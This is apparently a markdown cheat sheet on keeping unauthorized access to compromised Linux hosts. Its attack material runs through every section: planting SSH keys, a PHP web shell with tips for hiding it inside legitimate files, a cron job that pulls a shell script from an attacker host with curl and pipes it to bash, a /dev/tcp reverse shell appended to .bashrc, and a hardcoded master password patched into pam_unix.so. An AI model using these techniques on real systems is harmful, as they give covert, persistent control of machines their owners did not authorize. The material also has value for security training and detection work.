


# Linux Backdoors

9 Ways to [Backdoor a Linux Box](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)  

- [SSH Backdoors](#ssh-backdoors)
  - [Exploit](#exploit)
- [PHP Backdoors](#php-backdoors)
- [CronJob Backdoors](#cronjob-backdoors)
- [.bashrc Backdoors](#bashrc-backdoors)
- [PAM\_UNIX.SO Backdoors](#pam_unixso-backdoors)


## SSH Backdoors

Leaving our ssh keys in the root or other privileged user's home directory  
Requires gaining initial access to a target `[user]`, presumably `root`.

### Exploit  

`:> ssh-keygen -t rsa` : generate a new key pair and stores in `/[user]/.ssh`  
`:> chmod 600 id_rsa` : modify permissions to the private key  
rename public key to `authorzied_keys`  
By whatever method is possible, transmit `authorized_keys` to .ssh folder on the target device.  
from the attacking device, 

From the attacking device, log into the target device: `ssh [user]@[target device] -i id_rsa`

## PHP Backdoors

Obtain root access on a linux host.  
move to wb root at `/var/www/html`  

build a php file 'shell.php' in the html directory:  

```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

access the file at `http://ip/shell.php?cmd= `  

obfuscate the backdoor by:  

1. add the code near the middle of some legitimate file
2. change the 'cmd' paramter to something far more benign looking.  

## CronJob Backdoors

set a cronjob to retrieve a shell from an attacking device every 1 minute to create a simple HTTP server which serves the shell.

One the "attacking" device creeate the shell.sh:

```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```
and set up a listener: `:> nc nvlp <port>`

add the cronjob to the victim device:  

`** *** root curl http://<attacker ip>:<attacker port>/shell.sh| bash`

## .bashrc Backdoors

requires a user with `bash` as their login shell
the ".bashrc" file in their home directory is executed when an interactive session is launched

Identify users logging into their system quite often
run this command to include your reverse shell into their ".bashrc" :

`:> echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc`

have your nc listener ready as you don't know when your user will log on.

sneaky attack because nobody really thinks about ever checking their ".bashrc" file.

On the other hand, you can't exactly know if any of the user's will actually login to their system, so you might really wait a long period of time.

## PAM_UNIX.SO Backdoors

"pam_unix.so" : one of many files in Linux that is responsible for authentication  

The standard file:  

  

add a new line to our code : `"if (strcmp(p, "0xMitsurugi") != 0 )"`  

  

The added code compares the variable "p" and the string "0xMitsurugi".  

where "p" represents the user's supplied password  

 "!=0" at the end of the statement means "if not successful". 
 If the variable "p"(user-supplied password) and the string "0xMitsurugi" are NOT the same... the function "unix_verify_password" will be used.  

If the variable "p"(user-supplied password) and the string "0xMitsurugi" are the same, the authentication is a success. We mark the success by using "PAM_SUCCESS;"

So this backdoor essentially consists of adding your own password to "pam_unix.so"

Since you know the password that you added into the file, you will always be able to authenticate with that password until it's removed from "pam_unix.so"

***Walkthrough***

A user types the password "password123" and tries to authenticate  

`PAM_UNIX.SO` compares password(password123) to the string "0xMitsurugi"  

If those two strings match, the authentication is successful  
But those 2 strings do not match, so the authentication will not be successful and will rely on the "unix_verify_password" function  
When using the "unix_verify_password" function to authenticate, the function takes the user's password from "/etc/shadow" and compares it to the user's supplied password  
This is how the intended authentication system should work.

However, this technique is called a backdoor as you add your own password that you can always use as long as nobody takes it out of "pam_unix.so".

This backdoor is really hard to spot, as once again, nobody really thinks about looking into such files.

Creating a [backdoor in PAM](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html) in 5 line of code  

This [script](https://github.com/zephrax/linux-pam-backdoor) automates the creation of a backdoor for Linux-PAM (Pluggable Authentication Modules)  
